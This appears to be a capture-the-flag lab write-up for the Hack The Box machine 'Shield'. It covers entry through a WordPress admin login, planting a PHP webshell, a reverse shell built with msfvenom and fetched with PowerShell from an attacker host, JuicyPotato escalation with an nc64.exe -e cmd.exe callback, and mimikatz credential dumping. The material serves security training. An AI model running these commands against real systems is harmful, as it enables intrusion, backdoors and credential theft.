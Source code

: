 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)  
![alt text](./img/shield.PNG?raw=true)  

## Recon-Enumeration  
![alt text](./img/shield01.PNG?raw=true)  

![alt text](./img/shield02.PNG?raw=true)  

Looks like we have WORDPRESS, time to use WPSCAN  
![alt text](./img/shield03.PNG?raw=true)  
 
This scan will take a while, but after we receive some interesting results  
![alt text](./img/shield04.PNG?raw=true)  
  
![alt text](./img/shield05.PNG?raw=true)    

Ok, navigating through the blog we can find an interesting URL in source code:  
![alt text](./img/shield06.PNG?raw=true)    
  
When we try to access it we are redirect to another page. Maybe we can map the blog changing it value and following the redirect. Let’s try to automate this…
- for i in $(seq 1 100);do echo -n "$i - " && curl http://10.10.10.29/wordpress/?p=$i -i -s | grep Location;echo;done  
The result of this code return 100 lines, but these are the only ones with redirect  
![alt text](./img/shield07.PNG?raw=true)    

In the blog we can find an login page  
![alt text](./img/shield08.PNG?raw=true)    

We can try admin:admin, but it will fail  
![alt text](./img/shield09.PNG?raw=true)    

However the message says that the PASSWORD is incorrect for the username admin, so this username exists. We can try to use the password discovered on the other machines (archetype, oopsie, vaccine)

The credential admin:P@s5w0rd! worked!

## Exploit  
![alt text](./img/shield10.PNG?raw=true)    

From here we can go to APPEARANCE -> THEME EDITOR  
![alt text](./img/shield11.PNG?raw=true)    


The theme used is HIGHLIGHT, uselly the path for the pages in the right corner are:  
- WEBSITE/wp-content/themes/highlight/  
So for the PAGE single.php the url would be  
- 10.10.10.29/wp-content/themes/highlight/single.php

Now let’s edit the page single.php with and backdoor php code. I recommend use the one in the webshells folder:  
![alt text](./img/shield12.PNG?raw=true)    

Copy the php code and paste in the single.php, than UPDATE FILE  
![alt text](./img/shield13.PNG?raw=true)    

Now let’s access the page using the cmd param of the backdoor  
![alt text](./img/shield14.PNG?raw=true)    

Success! Now let’s try to get a shell… run the following command to generate an .exe file
- msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=1234 -f exe -e x86/shikata_ga_nai -i 9 -o reverse.exe
- Start a http server (Examplo: sudo python3 -m http.server 80)
- Start an listener on port 123

In the browser access the url:
- http://10.10.10.29/wp-content/themes/highlight/single.php?cmd=powershell -c "(New-Object Net.Webclient).DownloadFile('http://YOUR_IP/reverse.exe','C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\reverse.exe')"

Now the file is in the same directory of the single.php page. To run the exe just access the follow link:
- http://10.10.10.29/wordpress/wp-content/themes/highlight/single.php?cmd=reverse.exe

You will receive an reverse shell  
![alt text](./img/shield15.PNG?raw=true)    

## Privesc  
![alt text](./img/shield20.PNG?raw=true)    
  
![alt text](./img/shield16.PNG?raw=true)    

So we have the SeImpersonatePrivilege ENABLED, [juicy potato](https://github.com/ohpe/juicy-potato) can help us with the privesc

Let’s upload nc64.exe and JuicyPotato.exe to the machine (don’t forget to set a http server)
- powershell -c "(New-Object Net.Webclient).DownloadFile('http://YOUR_IP/nc64.exe','C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\nc64.exe')"
- powershell -c "(New-Object Net.Webclient).DownloadFile('http://YOUR_IP/JuicyPotato.exe','C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\jp.exe')"  
PS: you can find the nc64.exe on internet, just google it

Now we create a bat file, which will be executed by the juicypotato:
- echo start C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\nc64.exe -e cmd.exe YOUR_IP 9003 > eldruin.bat

To run the command we might need a clsid, for luck we can grab one [here](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/)

Now set up the nc listener on port 9003 and run the command:
- jp.exe -p C:\inetpub\wwwroot\wordpress\wp-content\themes\highlight\eldruin.bat -l 9003 -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}  
![alt text](./img/shield18.PNG?raw=true)    
  
![alt text](./img/shield19.PNG?raw=true)    

Now just go to C:\Users\Administrator\Desktop and get the flag

## Discoveries  
![alt text](./img/shield17.PNG?raw=true)    

Upload mimikatz to the machine and run the command:
- sekurlsa::logonpasswords  
![alt text](./img/shield21.PNG?raw=true)    

